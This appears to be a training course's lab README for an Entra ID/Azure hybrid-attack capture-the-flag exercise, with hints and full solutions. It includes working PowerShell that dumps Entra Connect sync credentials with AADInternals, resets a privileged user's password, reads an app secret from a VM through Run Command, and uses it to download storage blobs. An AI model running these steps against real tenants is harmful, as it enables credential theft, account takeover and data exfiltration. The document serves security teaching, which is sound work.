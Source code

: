 # LAB 4 : Capture the Flag (CTF) Challenge

## Preparations
* **DO NOT** look at the scripts content / output

1. RDP login to DC VM using the YOURDOMAIN\\**rootuser**, then run the following script as admin (**when asked, login using the ENTRA CREDS (!) - you will be asked twice**)
    ```powershell
    # when asked, login using the ENTRA ADMIN CREDS (!) - you will be asked twice
    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-4-full-attack-flow/lab4PreparationScript.ps1" -OutFile "C:\\lab4PreparationScript.ps1"; `
    & "C:\\lab4PreparationScript.ps1" -DomainName #"mydomain.onmicrosoft.com"
    ```
    - if failed it's probably due to timeout: rerun again and enter the creds faster

2. RDP login to Win11 VM, then put there what you've created in the script above in the correct place..

## Instructions: Start Here
1. Your goal is to find the `secret.txt` file 
2. forget everything you knew: from this point on you DON'T know what the Entra admin password is (i.e. what's the password of ``user1`` / ``rootuser`` / ``admin``..), and what the VMs passwords are
3. **DO NOT** password reset ``user1``
3. **Starting point:** as the attacker the only thing you have is the RDP session on the DC VM. Good luck! 

Do not use hints unless you really have to..

## Hints

<details>
    <summary><b>First hint: where the secret.txt file isn't stored</b></summary>

    The file isn't on any VM
</details>


<details>
    <summary><b>Entire attack path hint (use as last resort)</b></summary>

![entire_path](entire_path.png)
    1. Pass reset: DC vm -> reset pass of "user2" (or your given user in the class) using Entra Sync account credentials

    2. Login to Azure as that user using your browser

    3. Azure Portal Run Command on Win11 VM 

    4. Steal the app secret on that VM by running powershell script from the Run Command extension on the Azure portal 

    5. Use the secret to get access token and authenticate using PowerShell to MS Graph API read secret.txt from storage account
</details>


## Step 1

<details>
<summary><b>Hint 1</b></summary>
    
    1. Find a way to compromise a synced user in order to jump to the cloud

    2. Recon for roles / azure permissions to see which user you want to compromise

    3. it's not "user1"...
</details>


<details>
    <summary><b>Hint 2</b></summary>
    
    Abuse the Entra Connect password reset feature using AADInternals
</details>



<details>
<summary><b>Solution</b></summary>
on the DC VM:

```powershell
Import-Module AADInternals -RequiredVersion "0.9.4"
Get-AADIntSyncCredentials
```

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$at = Get-AADIntAccessTokenForAADGraph
$tenant = Get-AADIntSyncConfiguration -AccessToken $at # get the tenant ID

Connect-AzureAD -AadAccessToken $at -tenantId $tenant.tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id
```

Enumerate users:
```powershell
# list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize

```

Enumerate Applications:
```powershell
Connect-MgGraph # using the Sync_xxx creds

# Retrieve all applications
$applications = Get-MgApplication -All

# Retrieve all service principals (needed for permission lookup)
$servicePrincipals = Get-MgServicePrincipal -All

# Iterate over each application
foreach ($app in $applications) {
    $appName = $app.DisplayName
    $appId = $app.AppId
    $appObjectId = $app.Id

    # Retrieve permissions (RequiredResourceAccess contains GUIDs of permissions)
    $permissions = @()
    foreach ($resourceAccess in $app.RequiredResourceAccess) {
        $sp = $servicePrincipals | Where-Object { $_.AppId -eq $resourceAccess.ResourceAppId }
        if ($sp) {
            foreach ($perm in $resourceAccess.ResourceAccess) {
                $role = $sp.AppRoles | Where-Object { $_.Id -eq $perm.Id }
                $permName = if ($role) { $role.DisplayName } else { "Unknown Permission ($($perm.Id))" }
                $permissions += [PSCustomObject]@{
                    ResourceName = $sp.DisplayName
                    Permission   = $permName
                    Type         = $perm.Type
                }
            }
        }
    }

    # Output application information
    Write-Host "Application: $appName"
    Write-Host "  App ID: $appId"
    Write-Host "  Object ID: $appObjectId"
    Write-Host "  Required Permissions:"
    $permissions | Format-Table -AutoSize

    # Retrieve associated service principal
    $sp = $servicePrincipals | Where-Object { $_.AppId -eq $appId }
    if ($sp) {
        $spName = $sp.DisplayName
        $spObjectId = $sp.Id
        Write-Host "  Service Principal: $spName"
        Write-Host "    Object ID: $spObjectId"

        # Get assigned roles for the service principal
        $assignedRoles = Get-MgServicePrincipalAppRoleAssignment -ServicePrincipalId $spObjectId
        if ($assignedRoles) {
            $roleDetails = @()
            foreach ($role in $assignedRoles) {
                $resourceSP = $servicePrincipals | Where-Object { $_.Id -eq $role.ResourceId }
                if ($resourceSP) {
                    $roleName = $resourceSP.AppRoles | Where-Object { $_.Id -eq $role.AppRoleId }
                    $roleDisplayName = if ($roleName) { $roleName.DisplayName } else { "Unknown Role ($($role.AppRoleId))" }
                    $roleDetails += [PSCustomObject]@{
                        AssignedTo    = $resourceSP.DisplayName
                        RoleName      = $roleDisplayName
                    }
                }
            }

            Write-Host "    Assigned Roles:"
            $roleDetails | Format-Table -AutoSize
        } else {
            Write-Host "    No assigned roles."
        }
    } else {
        Write-Host "  No associated service principal found."
    }

    Write-Host "--------------------------------------"
}
```

We see some interesting app and service principal, however we don't have any permissions to them..
</details>

## Step 2

<details>
    <summary><b>Hint 1</b></summary>
    
    Let's target `user2` (or your target user given as in class), as he holds a privileged role and we do have permissions to set its password.. 
</details>

<details>
    <summary><b>Solution</b></summary>

Reset the victim user's Entra password:
```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS"  -AccessToken $at -Verbose 
```
</details>


## Step 3

<details>
    <summary><b>Hint 1</b></summary>
    
    Login to Azure as that user and see what you have access to
</details>

<details>
    <summary><b>Hint 2</b></summary>

    You can find the virtual machine Win11 and using the Run Command extension execute PowerShell script on it
</details>


<details>
    <summary><b>Hint 3</b></summary>
    
    user1 is logged into that Win 11 vm, and he's a part of the company's IT, he's the guy responsible for backing up cloud data of the company.
    He does that by running stuff from the C:\ folder...
</details>

<details>
    <summary><b>Hint 4</b></summary>

    Use the Run Command extension to get a secret that lies on this machine on the C:\ folder..
</details>

<details>
<summary><b>Solution</b></summary>

user1 created an app with a scret to make these backups, let's use that for our advantage..

1. Login to portal.azure.com as the target user you compromised
2. Run the following command on the Win11 VM from the Run Command Window in the Azure portal:
3. `type c:\backup_app_secret.txt`
</details>

## Step 3
<details>
    <summary><b>Hint 1</b></summary>
    
    Using the acquired file content, what can you do?
    You may use your own PC / DC VM, you got everything you needed from this VM.
</details>

<details>
    <summary><b>Hint 2</b></summary>
    
    Authenticate as that SPN and see what it has access to..

```powershell
$appSecret = "SECRET_FROM_VM"
$tenantId = "YOUR_TENANT_ID"
$spId = "SPN_OBJECT_ID"

$SecureClientSecret = ConvertTo-SecureString $appSecret -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($appId, $SecureClientSecret)
Connect-AzAccount -ServicePrincipal -Credential $Credential -tenantId $tenantId
```
</details>

<details>
    <summary><b>Hint 3</b></summary>
    
```powershell
# List SPN's Azure Role Assignment using Azure PowerShell
$roleAssignments = Get-AzRoleAssignment -ObjectId $spId
$roleAssignments | ForEach-Object {
    Write-Output "Role: $($_.RoleDefinitionName) - Scope: $($_.Scope)"
}
```
</details>

<details>
    <summary><b>Hint 4</b></summary>
    
    We can see that there's a storage account that this SPN has access to..
</details>


<details>
    <summary><b>Solution</b></summary>
    
```powershell
Get-MgApplication -All # select the correct app.appId (NOT app.Id), run this command as the user you've compromised
$appId = "APP_ID" # get it from command above
$appSecret = "SECRET_FROM_VM"
$tenantId = "YOUR_TENANT_ID" # you can get it here https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView$spId = "SPN_OBJECT_ID"

$SecureClientSecret = ConvertTo-SecureString $appSecret -AsPlainText -Force
$Credential = New-Object System.Management.Automation.PSCredential ($appId, $SecureClientSecret)
Connect-AzAccount -ServicePrincipal -Credential $Credential -tenantId $tenantId

```
We can see that there's a storage account that this user has access to..
```powershell
# Get all storage accounts
$storageAccounts = Get-AzStorageAccount

foreach ($storageAccount in $storageAccounts) {
    Write-Output "Storage Account: $($storageAccount.StorageAccountName)"

    # Get the context for the storage account
    $context = $storageAccount.Context

    # List all containers in the storage account
    $containers = Get-AzStorageContainer -Context $context

    foreach ($container in $containers) {
        Write-Output "  Container: $($container.Name)"

        # List all blobs in the container
        $blobs = Get-AzStorageBlob -Container $container.Name -Context $context

        foreach ($blob in $blobs) {
            Write-Output "    Blob: $($blob.Name)"

            # Download the blob content to a temporary location
            $tempFilePath = Join-Path -Path $env:TEMP -ChildPath $blob.Name
            Get-AzStorageBlobContent -Blob $blob.Name -Container $container.Name -Context $context -Destination $tempFilePath -Force

            # Print the content of the blob
            $blobContent = Get-Content -Path $tempFilePath
            Write-Output "      Content: $blobContent"
        }
    }
}
```

### The content of "secret.txt" in storage account is your medal, mazal tov hacker cracker!

#### Bonus: 
Go back to the beginning, and try steal your target user identity using silver ticket (Seamless SSO) instead of password reset
</details>


## Don't forget
Once done, delete the lab resource groups to clean up the resources + the App Registration and its Enterprise App